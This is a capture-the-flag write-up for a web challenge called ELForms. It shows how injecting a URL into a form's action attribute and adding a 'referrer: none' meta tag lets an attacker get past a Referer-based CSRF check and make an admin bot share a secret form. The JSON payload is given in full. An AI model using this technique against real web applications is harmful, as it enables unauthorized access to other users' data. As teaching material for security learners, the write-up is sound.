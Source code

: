 # ELForms

- Published: 12/24/2024 (#24/25 in event)
- Category: Web exploitation
- Points: 130
- Author: GodderE2D

“It was snowing this morning,” Agent Aspen said.

“I know it’s your last day—but we have something for you to do. It won’t take long, I promise.”

We’re anticipating that K.U.N.A.L himself is coming after our systems. We have this internal software that another
intern created a few years ago; we’ve been using it ever since they pitched it to Santa. Santa was impressed, but after
taking a closer look it doesn’t look very secure at all.

[https://elforms.csd.lol/](https://elforms.csd.lol/) (source code is attached)

---

_**You are only allowed to test in the scope `https://*elforms.csd.lol/*`.** Blind brute-force request sending (e.g.,
using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore,
if you wish to brute-force, please limit your wordlists or attack scope._

## Attachments

- [Source code](https://files.vipin.xyz/api/public/dl/NcRnfu5V/Day%2024%20-%20ELForms/elforms.tar.gz)

## Hints

**Hint 1:**  
Taking a look at `init-db.js`, it appears that the “admin” user creates a form that has the flag as the name. Are there
any attack vectors to getting the name of this form?

Take a look at your browser’s DevTools (particularly the Sources, Network, and Application tabs) and try to compare
requests with responses from the API in the two `server.js` files. Do you notice anything insecure that can be
exploited?

**Hint 2:**  
Running the Docker container locally or running the two servers manually may be helpful.

What does `POST /forms/test` do? What does the `csrf` function check for? How can those be possible exploited?

## Write-up

<details>
<summary>Reveal write-up</summary>

First, in `/init-db.js`, we can see where the flag will be stored:

```js
db.prepare(
  `insert into user (id, username, password) values (
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    'admin',
    '$2y$10$c2VPz9tvLkA.ApNmD.W6X.JTcRYY2/2nJM5cFDOXYAl5rS1XVjcL6'
  )`
).run();

db.prepare(
  `insert into form (id, author_id, name, description, questions, meta, public) values (
    '7e27fe8a-447e-4c8f-bb37-133aae88f07e',
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    ?,
    'top secret form',
    '[{"name":"foo","defaultValue":"bar"},{"name":"foo","defaultValue":"bar"}]',
    '{"og:title":"...","og:description":"top secret form"}',
    0
  )`
).run(process.env.FLAG || "csd{test_flag}");
```

The admin user creates a form with the flag as the title, but we don't have access to this form.

Upon signing up, we can attempt to create a form. Note that the homepage mentions "testing" a form submission, which may
hint that this is a cross-site scripting (XSS) challenge.

Let's first create a test form by inputting random values into `/forms/create`:

![Form submit page](./form-submit.png)

We can see that the default values we inputted are indeed pre-filled into the fields. Submitting the form sends a POST
request to the same URL, simple HTML forms. No JavaScript is involved here.

Note that this is also a different domain than our original URL: `form-elforms.csd.lol` rather than `elforms.csd.lol`.

Now, let's try going back to `/forms` and pressing the Test button. We get a message that an elf will go "test" our
form, but there are no updates beyond that.

Taking a look at the source code, we can see that the code to test the form in `/main/server.js` looks pretty normal:

```js
await page.setCookie({
  name: "token",
  value: token,
  domain: process.env.MAIN_BASE_URL.replace("http://", "").replace("https://", ""),
  path: "/",
  expires: Date.now() + 30 * 24 * 60 * 60 * 1000,
  httpOnly: true,
  secure: false,
});

await page.goto(url);

await setTimeout(1000);

await page.locator("#submit").click();

await setTimeout(1000);

await page.close();
```

It sets a `token` cookie with `elforms.csd.lol` (from the environment variable), waits a second, looks for a button on
the page with the ID `submit`, and clicks on it. It then waits another second and closes the page.

```js
cluster.queue({
  url: `${process.env.FORM_BASE_URL}/${encodeURIComponent(form.name)}_${form.id}`,
  token: jwt.sign({ id: tester.id }, process.env.JWT_SECRET, {
    expiresIn: "30d",
  }),
});
```

The `token` cookie is a valid and signed [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) of the
tester, who by default is the admin. However, the cookie is stored on the `elforms.csd.lol` domain, which is not the
same as the form submission domain `form-elforms.csd.lol`. More on this later.

Note that we can only test our own forms:

```js
if (form.author_id !== user.id) return res.status(401).send("Unauthorized");
```

It checks this by getting the username from our JWT cookie:

```js
function getUser(req) {
  if (!req.cookies.token) return;

  try {
    const { id } = jwt.verify(req.cookies.token, process.env.JWT_SECRET);
    if (typeof id !== "string") return false;

    return db.prepare("SELECT id, username FROM user WHERE id = ?").get(id);
  } catch (error) {
    console.error(error);
    return false;
  }
}
```

There is something else that stands out—it adds the tester to the `shared_ids` of the form.

```js
const shared_ids = form.shared_ids ? JSON.parse(form.shared_ids) : [];
shared_ids.push(tester_id);
// ...
db.prepare("UPDATE form SET shared_ids = ? WHERE id = ?").run(JSON.stringify([...new Set(shared_ids)]), id);
```

And when checking which forms a user can see and edit, the server checks if the user is in the `shared_ids` of the form:

```js
const forms = db.prepare("SELECT * FROM form WHERE author_id = ? OR shared_ids LIKE ?").all(user.id, `%${user.id}%`);
```

Hm, but you shouldn't need to _edit_ the form to submit a form. This seems weird, there could be something more to this.

We can't just edit `tester_id` to be our own ID, as that wouldn't be our own logged in ID (according to the cookie).
But, we can use the _tester_ (who has the admin cookie) to test the admin form which has the flag as the name.

So, we need to specify our own user ID as the `tester_id` to add it to the `shared_ids` list and specify `id` to be the
top secret form ID from `/init-db.js`.

So, how can we utilize the tester's cookie? We need to either extract it, or have it run a request while it's testing to
have the cookie attached to the request.

We can't extract the cookie—recall that the cookie is
[HTTP-only](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Cookies#httponly). It
must be attached to a request.

Well, it won't be attached to just any request we make. It has to be on that domain, which is `elforms.csd.lol`.

Let's start going through the source code for the form submission page.

In `/form/views/pages/form.ejs`, we can see that the form name and ID are concatenated together with an underscore in
the action attribute:

```html
<form action="<%= form.name %>_<%= form.id %>" method="post" id="form" class="mb-2"></form>
```

In HTML, the [`action` attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/form#action)
allows us to change the URL where the form is submitted.

Well, we have control over the name of the form. Plus, the `/` is not included in the original code, so we can specify
any URL from any domain we want! (But the resulting URL will have the underscore and form ID at the end.)

That's not a problem, though. We can simply append a URL fragment and it won't be included in the network request at
all.

So, if we have our form name be `http://elforms.csd.lol/forms/test#`, it will result in something like
`action="http://elforms.csd.lol/forms/test#_51fbbcda-8a1d-4ea7-9f03-fc8498d37657"`.

That will resolve to just `http://elforms.csd.lol/forms/test` in the network request. Conveniently, `POST /forms/test`
also allows `application/x-www-form-urlencoded` for the body. So, we should just be able to set the field names and the
default field values to the values we want.

Let's craft a form for our tester to use:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ]
}
```

Recall that `7e27fe8a-447e-4c8f-bb37-133aae88f07e` is the ID of the top secret form we want to make public to us.

We can also get our account ID for `tester_id` by decoding the JWT:

```bash
$ echo 'eyJpZCI6IjA3Y2YxNjA5LTVjODktNGRmMi05OThkLWRmMDQxMDJjYjFiOSIsImlhdCI6MTc0ODEyMzc1MCwiZXhwIjoxNzUwNzE1NzUwfQ' | base64 --decode | jq
base64: invalid input
{
  "id": "07cf1609-5c89-4df2-998d-df04102cb1b9",
  "iat": 1748123750,
  "exp": 1750715750
}
```

However, a problem now arises. We are blocked by the `csrf()` middleware!

```js
function csrf(req, res, next) {
  if (req.headers.referer && !req.headers.referer.startsWith(process.env.MAIN_BASE_URL)) {
    return res.status(403).send("Forbidden");
  }

  next();
}
```

However, this is a
[Referer-based CSRF check](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses) and can be
bypassed here by not having a `Referer` header at all.

Well, conveniently, we can also custom-set our own meta tags, and one way to prevent the site from sending the Referer
header in requests is by using `<meta name="referrer" content="none">`:

```ejs
<% Object.entries(form.meta).forEach(([name, content]) => { %>
<meta name="<%= name %>" content="<%= content %>" />
<% }); %>
```

So, our final payload to `POST /forms/create` is:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ],
  "meta": {
    "referrer": "none"
  }
}
```

Please note that the URL in `name` is `https`, not `http`. Chromium will warn you if you send a form request in an
insecure HTTP request.

After creating this form, let's go back to `/forms` and press the Test button. After a few seconds, let's navigate back
to `/forms`:

![Forms with flag](./forms-with-flag.png)

Looks like we've successfully added our user ID to the top secret form's `shared_ids`! Merry Christmas Eve!

Flag: `csd{wh4t_4N_3v3ntFuL_cHR15TM45_3v3}`

</details>

Write-up by GodderE2D
